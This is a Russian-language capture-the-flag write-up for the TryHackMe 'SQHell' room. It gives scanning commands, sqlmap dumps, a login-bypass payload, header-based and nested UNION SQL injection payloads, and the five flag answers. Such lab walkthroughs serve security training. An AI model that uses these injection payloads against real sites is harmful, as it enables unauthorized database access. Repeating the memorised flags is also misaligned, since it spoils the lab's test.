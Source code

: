 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [SQHell](https://tryhackme.com/r/room/sqhell) 

Всего 1 заданиe:
## Задание 1
Дайте машине минуту на загрузку, а затем подключитесь к http://MACHINE_IP

Необходимо найти 5 флагов, но вам придется преодолеть различные типы SQL- инъекций.

Подсказка: если флаги не отображаются на странице, они хранятся в таблице флагов в столбце флагов.

### Ответьте на вопросы ниже
Флаг 1
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt — wildcard php,html
sqlmap -u “http://<IP>/post/?id=2” -dbs
http://<IP>/login
username: admin' or 1=1-- -
password: whatever
```
```commandline
THM{FLAG1:E786483E5A53075750F1FA792E823BD2}
```
Флаг 2
```commandline
http://sqhell.thm/terms-and-conditions
sqlmap -u 'http://<IP>/terms-and-conditions' -H 'X-Forwarded-For: 10.10.10.10*' --risk 3 --level 5 --dbms MySQL
sqlmap -u 'http://<IP>/terms-and-conditions' -H 'X-Forwarded-For: 10.10.10.10*' --risk 3 --level 5 --dbms MySQL --dbs
sqlmap -u 'http://<IP>/terms-and-conditions' -H 'X-Forwarded-For: 10.10.10.10*' --risk 3 --level 5 --dbms MySQL -D sqhell_1 --tables
sqlmap -u 'http://<IP>/terms-and-conditions' -H 'X-Forwarded-For: 10.10.10.10*' --risk 3 --level 5 --dbms MySQL -D sqhell_1 -T flag --columns
sqlmap -u 'http://<IP>/terms-and-conditions' -H 'X-Forwarded-For: 10.10.10.10*' --risk 3 --level 5 --dbms MySQL -D sqhell_1 -T flag -C flag --dump
```

```commandline
THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}
```
Флаг 3
```commandline
http://sqhell.thm/register
sqlmap -u 'http://<IP>/register/user-check?username=noraj' -p username --risk 3 --level 5 --dbms MySQL --dbs
sqlmap -u 'http://<IP>/register/user-check?username=noraj' -p username --risk 3 --level 5 --dbms MySQL -D sqhell_3 --tables
sqlmap -u 'http://<IP>/register/user-check?username=noraj' -p username --risk 3 --level 5 --dbms MySQL -D sqhell_3 -T flag --columns
sqlmap -u 'http://<IP>/register/user-check?username=noraj' -p username --risk 3 --level 5 --dbms MySQL -D sqhell_3 -T flag -C flag --dump
```
```commandline
THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}
```
Флаг 4
```commandline
sqlmap -u 'http://<IP>/user?id=55' -p id --risk 3 --level 5 --dbms MySQL -D sqhell_4 --tables
sqlmap -u 'http://<IP>/user?id=55' -p id --risk 3 --level 5 --dbms MySQL -D sqhell_4 -T users --dump
http://<IP>/user?id=2 union all select 'noraj','is','great' from users-- -
http://<IP>/user?id=2 union all select '44 UNION SELECT 5,6,7,8-- -','is','great' from users-- -
http://<IP>/user?id=2 union all select '44 UNION SELECT 5,flag,7,8 from flag-- -','is','great' from users-- -
```
```commandline
THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}
```
Флаг 5
```commandline
sqlmap -u 'http://sqhell.thm/post?id=55' -p id --risk 3 --level 5 --dbms MySQL --dbs
sqlmap -u 'http://sqhell.thm/post?id=55' -p id --risk 3 --level 5 --dbms MySQL -D sqhell_5 --tables
sqlmap -u 'http://sqhell.thm/post?id=55' -p id --risk 3 --level 5 --dbms MySQL -D sqhell_5 -T flag --columns
sqlmap -u 'http://sqhell.thm/post?id=55' -p id --risk 3 --level 5 --dbms MySQL -D sqhell_5 -T flag -C flag --dump
```

```commandline
THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)